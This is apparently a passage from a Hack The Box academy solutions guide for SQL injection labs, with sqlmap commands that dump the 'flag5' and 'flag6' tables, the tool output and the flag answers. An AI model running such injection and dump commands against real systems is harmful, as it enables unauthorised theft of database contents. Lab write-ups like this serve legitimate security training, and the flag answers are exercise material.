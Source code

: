 ```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:30991/case5.php?id=*' --level 5 --risk 3 -T flag5 --batch --dump

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.8#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[18:20:58] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly

<SNIP>

Database: testdb
Table: flag5
[1 entry]
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r15k_bu7_w0r7h_17}       |
+----+---------------------------------------+
```

Answer: `HTB{700_much_r15k_bu7_w0r7h_17}`

# Attack Tuning

## Question 2

### "What's the contents of table flag6? (Case #6)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #6" to notice that they need to exploit the `GET` parameter `col` that has non-standard boundaries:

![[HTB Solutions/CPTS/z. images/af9ad5289a3cc0329f3d520136e51a67_MD5.jpg]]

Thus, the `sqlmap` command will be:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case6.php?col=id' --prefix='\`)' --batch -T flag6 --dump
```

